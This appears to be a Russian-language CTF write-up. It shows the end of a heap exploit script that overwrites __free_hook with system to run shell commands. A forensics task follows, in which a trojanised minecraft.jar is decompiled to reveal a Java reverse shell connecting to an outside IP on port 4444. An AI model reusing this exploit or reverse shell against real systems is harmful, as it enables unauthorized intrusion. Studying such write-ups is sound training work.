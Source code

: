 ```python=
add_mark(chunk_addr_lodword, 40, p64(free_hook)) # подделываем указатель на следующий чанк в бине на __free_hook
add_mark(chunk_addr_lodword, 40, b'cat *') # __free_hook на вход получает адрес чанка, а он указывает на эту строку. /bin/bash почему-то крашится, поэтому пришлось делать так
add_mark(chunk_addr_lodword, 40, b'ls;ls;ls;ls')
add_mark(chunk_addr_lodword, 40, p64(system)) # переписываем __free_hook на system

#add_mark(chunk_addr_lodword, 40, p64(system))

delete_mark(18)


p.interactive()

```
---

# Задание 1
```
Выдан образ машины linux(vmdk)
+ Import vmdk to virtualbox
+ Reset Sergey/Root password via grub mode
+ Login with sergey(root)
```



## Как злоумышленник попал на машину
( /home/sergey/minecraft.jar)

В истории к заданию сказано, что Валера запустил майнкрафт на компьютере. 
Найдем одноименный файл и разреверсим его.
При помощи jadx декомпилируем класс `Malware`
```java 
package Malware;

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

/* loaded from: minecraft.jar:Malware/ReverseShell.class */
public class ReverseShell {
    public static void main(String[] args) {
        try {
            Process p = new ProcessBuilder("/usr/bin/bash").redirectErrorStream(true).start();
            Socket s = new Socket("192.168.126.129", 4444);
            InputStream pi = p.getInputStream();
            InputStream pe = p.getErrorStream();
            InputStream si = s.getInputStream();
            OutputStream po = p.getOutputStream();
            OutputStream so = s.getOutputStream();
            while (!s.isClosed()) {
                while (pi.available() > 0) {
                    so.write(pi.read());
                }
                while (pe.available() > 0) {
                    so.write(pe.read());
                }
                while (si.available() > 0) {
                    po.write(si.read());
                }
                so.flush();
```